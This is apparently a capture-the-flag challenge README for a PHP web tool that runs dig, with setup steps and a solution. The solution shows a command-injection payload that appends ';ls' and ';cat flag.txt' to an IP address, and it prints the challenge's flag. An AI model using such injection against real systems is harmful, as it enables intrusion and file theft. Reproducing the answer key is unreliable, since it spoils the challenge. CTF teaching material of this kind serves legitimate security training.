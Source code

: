 ## Deathline75 's digger

Set up a web server with php

## Question Text
Deathline75 loves to find out information about networks, to do so he uses a command called dig.  
Hence to make it easy to use the dig command from anywhere, Deathline75 has decided to make a digger.  
DeathLine75 seems to have a flag hidden somewhere, but he can't remember where it is.....  
Can you help him find it?

## Setup Guide
1. Set up a web server.
2. Dump all the files.

## How to Play
Obtain the flag from the remote system

## Solution
Append a ; behind the IPAddress followed by your command.
1. 127.0.0.1;ls
2. 127.0.0.1;cat flag.txt

Flag is GCTF{K3LV1N_L0V3S_DD0S}
